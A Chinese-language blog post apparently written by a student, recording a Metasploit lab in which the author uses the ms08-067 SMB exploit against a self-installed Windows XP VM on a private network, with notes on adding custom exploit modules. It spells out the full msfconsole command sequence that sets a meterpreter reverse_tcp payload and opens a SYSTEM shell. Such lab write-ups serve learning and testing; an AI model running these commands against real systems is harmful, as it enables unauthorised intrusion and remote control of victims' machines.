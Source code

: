 ```yaml
---
title: Metasploit
date: 2020-05-21T19:47:40+08:00
tags: []
categories: []
description:
password:
---
```








## 0x00 序



课上体验了一把msf的一套流程，但是由于靶机已经上了补丁，所以失败了，这次来记录一下Metasploit的一套攻击流程，也不知道为啥，网上所有的入门也是拿课上的`ms08-067` 来测试的

那么我们这次来学习一下msf，并且能用msf用着`ms08-067` 来获取一个xp主机的`cmd`

（还顺便学学怎么加入自己的exp





> 参考：
>
> [Metasploit 官网](https://www.metasploit.com/)
>
> [MSF - Github](https://github.com/rapid7/metasploit-framework) ：  msf的github仓库
>
> [Metasploit入门系列(一)——何为MSF](https://www.jianshu.com/p/23a6df0c12ab)
>
> > [Metasploit入门系列(二)——初识模块](https://www.jianshu.com/p/ccd62cb6d691)
> >
> > [Metasploit入门系列(三)——基本命令](https://www.jianshu.com/p/2dec885bb3cf)
> >
> > [Metasploit入门系列(四)——小结备查](https://www.jianshu.com/p/52196a3cdce2)
> >
> > [Metasploit入门系列(五)——frp](https://www.jianshu.com/p/a94c247fe31d)
> >
> > [Metasploit入门系列(六)——永恒之蓝](https://www.jianshu.com/p/b6cc6ffa0695)
> >
> > [Metasploit入门系列(七)——Armitage](https://www.jianshu.com/p/412ce1fc7adc)
> >
> > [Metasploit入门系列(八)——Meterpreter(一)](https://www.jianshu.com/p/91a342fb664e)
> >
> > [Metasploit入门系列(九)——Meterpreter(二)](https://www.jianshu.com/p/91588e284fe8)
> >
> > [Metasploit入门系列(十)——Meterpreter(三)](https://www.jianshu.com/p/fcc665c91c94)
> >
> > [Metasploit入门系列(十一)——后渗透测试](https://www.jianshu.com/p/c6e544f9ec99)
>
> [Metasploit 学习笔记](https://blog.csdn.net/tan6600/article/details/46845793) ： 模块介绍
>
> [Meterpreter初探](https://www.cnblogs.com/wangyuyang1016/p/11032201.html) ：Metasploit的一个扩展模块，在后渗透阶段有强大的攻击力
>
> [后渗透之meterpreter使用攻略](https://xz.aliyun.com/t/2536)
>
> 





## 0x01 介绍



Metasploit是一款开源的安全漏洞检测工具，到目前为止，msf已经内置了数千个 已披露的漏洞相关的模块和渗透测试工具，模块使用ruby语言编写，这使得使用者能够根据需要对模块进行适当修改，甚至是调用自己写的测试模块。选定需要使用的攻击模块之后，你只需要使用简单的命令配置一些参数就能完成针对一个漏洞的 测试和利用，将渗透的过程自动化、简单化。



以下是Metasploit个版本的区别

![](metasploit_version.png)



kali里面自带了Metasploit Framework，我们就直接拿来用了



## 0x02 亲爱的ms08-067



这是一次刺激的msf攻击流程，用的是kali2020.02的vmware版本（输入banner命令可以看到不同一些奇奇怪怪的东西）

![](msf.png)

靶机是直接从msdn上刚下的winxp pro sp2，配置如下，内网地址为`192.168.52.135`

![](winxp_setting.png)



然后用kali的nmap扫一下靶机，发现啥都没扫出来，排查后发现是winxp的防火墙的原因，将其关掉，就发现该主机了

> 当然，加入发现445端口还没开的话，需要对win xp进行配置一下
>
> 编辑注册表`HKEY_LOCAL_MACHINE=>SYSTEM=>CurrentControlSet=>Services=>NetBT=>Parameters`
>
> 在`Parameters`上右键新建`DWORD`值，数值为1，重命名为`SMBDeviceEnabled`



![](namp_scan.png)



然后发现445端口开了之后就可以进行攻击了

在kali开启msf，先搜索一下这个漏洞，然后使用use

![](msf_search.png)



然后去找相应的payload

![](msf_payload.png)

![](msf_payload2.png)



然后用set命令设置对应攻击载荷payload，这里使用的是`reverse_tcp`，这是一个基于TCP的反向链接反弹shell, 使用起来很稳定

然后用`show target` ，来查找该漏洞受影响的机器，并根据目标靶机设置该选项

![](msf_target.png)

然后用`set target 10` 来设置目标靶机的版本

用`show options` 查看已经设置攻击模式



![](msf_option.png)



然后设置目标靶机的ip地址，LHOST是攻击主机的地址

> 当用户使用Metasploit框架中的模块时，经常需要配置LHOST参数。其中，LHOST参数用来指定本地主机IP地址。由于IP地址不容易记忆，而且输入也不方便。此时，用户可以使用接口名来代替，如set LHOST eth0。当用户指定接口名后，将自动使用eth0接口的IP地址。

![](msf_rhost.png)



这边注意，LHOST不要写本地回环的地址，否则会像我一样翻车的



![](msf_lhost.png)

然后用exploit命令，成功getshell



![](msf_getshell.png)

同时我们可以看到这边后台有一个system起的`cmd.exe`，即msf渗透得到的shell

简直可以为所欲为，不过试了下，windows这边还是可以终结掉kali的cmd进程

不过又有谁会发现进程里多了一个进程呢，还是system起的

![](win_cmd.png)



后面的meterpreter模块真的是万能的好用

> 具体命令参考：[后渗透之meterpreter使用攻略](https://xz.aliyun.com/t/2536)

一次完整的命令就如下了，虽然没有网上的博客直接打开一个shell，但是可以利用后渗透Meterpreter模块为所欲为，和getshell没啥大区别

```sh
search ms08-067
use exploit/windows/smb/ms08_067_netapi
show payloads
set payload windows/meterpreter/reverse_tcp
show targets
set target 10
show options
set RHOST 192.168.52.135 
set LHOST 192.168.52.133
exploit
```



## 0x03 设置自己的exp



> 参考：
>
> [Metasploit EXP开发](https://www.jianshu.com/p/6c7993ef7b4a)
>
> [Converting Metasploit Module to Stand Alone](https://netsec.ws/?p=262) ： 其翻译版本[如何改写msf的module为独立的exp？](https://blog.csdn.net/yalecaltech/article/details/89158575)
>
> [给kali的Metasploit下添加一个新的exploit](https://blog.csdn.net/SilverMagic/article/details/40978081)
>
> 



这边先mark一下，万一以后用到了呢/doge

其exp是使用ruby语言编写的，可以仿照msf已有的exp进行编写，存放位置如下：`/usr/share/metasploit-framework/modules/exploits/fwdtest` 

写完放到里面后，在msf下重新加载模块`msf > reload_all`，在用`use xxx`命令能够自动补全时，说明成功添加



## 0x04 常用命令链接



[metasploit常用命令](https://www.cnblogs.com/hijacklinux/p/7072854.html)

[msfconsole常用命令](https://www.jianshu.com/p/7e630bbd294a)



[meterpreter常用命令+脚本](https://maplege.github.io/2017/09/16/meterpreterCommand/)

